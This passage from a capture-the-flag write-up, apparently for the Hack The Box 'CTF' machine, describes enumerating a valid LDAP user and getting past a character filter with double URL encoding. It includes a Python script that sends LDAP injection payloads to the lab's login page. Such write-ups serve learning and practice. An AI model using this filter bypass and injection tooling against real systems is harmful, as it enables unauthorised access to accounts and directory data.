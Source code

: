 
Based on the wfuzz output, I notice that some of the characters seem to be blacklisted by the system. Whenever I use the following characters, the page doesn't return any message at all: `! & * () = \ | <> ~	`

The only valid user I found is: `ldapuser`. When I try that user on the login page, I get a `Cannot login` error message instead of `User not found`.

![](/assets/images/htb-writeup-ctf/cannotlogin.png)

### Testing for LDAP injection

Now that I have the username, I can guess the next part involves LDAP injection. I can get around the blacklisting of the characters by using double URL encoding: `)` becomes `%2529` instead of `%29`.

I made a quick script to test different payloads. The script URL encodes the payload twice (once with `urllib.quote` and the other one automatically with the `post` method).

```python
#!/usr/bin/python

import re
import requests
import urllib

def main():	
	while True:
		cmd = raw_input("> ")

		data = {
			"inputUsername": urllib.quote(cmd),
			"inputOTP": "12345",
		}

		proxy = {"http": "http://127.0.0.1:8080"}

		print("Payload: {}".format(data['inputUsername']))
		
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				print(m.group(1))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```	
